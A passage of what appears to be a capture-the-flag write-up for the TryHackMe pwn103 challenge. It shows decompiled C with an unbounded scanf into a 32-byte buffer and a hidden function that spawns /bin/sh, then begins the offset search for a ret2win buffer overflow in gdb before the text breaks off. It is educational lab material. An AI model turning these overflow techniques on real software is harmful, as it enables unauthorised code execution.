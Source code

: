 Function general()

```c
void general(void)

{
  int iVar1;
  char input [32];
  
  puts(&DAT_004023aa);
  puts(&DAT_004023c0);
  puts(&DAT_004023e8);
  puts(&DAT_00402418);
  printf("------[pwner]: ");
  __isoc99_scanf(&DAT_0040245c,input);
  iVar1 = strcmp(input,"yes");
  if (iVar1 == 0) {
    puts(&DAT_00402463);
    main();
  }
  else {
    puts(&DAT_0040247f);
  }
  return;
}
```

We see it receives user input using scanf and stores it in an input buffer that can hold up to 32 bytes of data with this we can cause a buffer overflow

Also looking through the functions i get a admins_only() function

```c
void admins_only(void)

{
  puts(&DAT_00403267);
  puts(&DAT_0040327c);
  system("/bin/sh");
  return;
}
```

It will grant us a shell. So the aim for this challenge is to perform Ret2Win 

Now i'll get the offset needed to overwrite the rip then make the return address call to the admins_only function

```
┌──(venv)─(mark㉿haxor)-[~/…/B2B/THM/Pwn101/pwn103]
└─$ cyclic 100                      
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

┌──(venv)─(mark㉿haxor)-[~/…/B2B/THM/Pwn101/pwn103]
└─$ gdb -q pwn103.pwn103
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.11
Reading symbols from pwn103.pwn103...
(No debugging symbols found in pwn103.pwn103)
gef➤  r
Starting program: /home/mark/Desktop/B2B/THM/Pwn101/pwn103/pwn103.pwn103 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡟⠁⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠈⢹⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⢠⣴⣾⣵⣶⣶⣾⣿⣦⡄⠄⠄⠄⢸⣿⣿⣿
```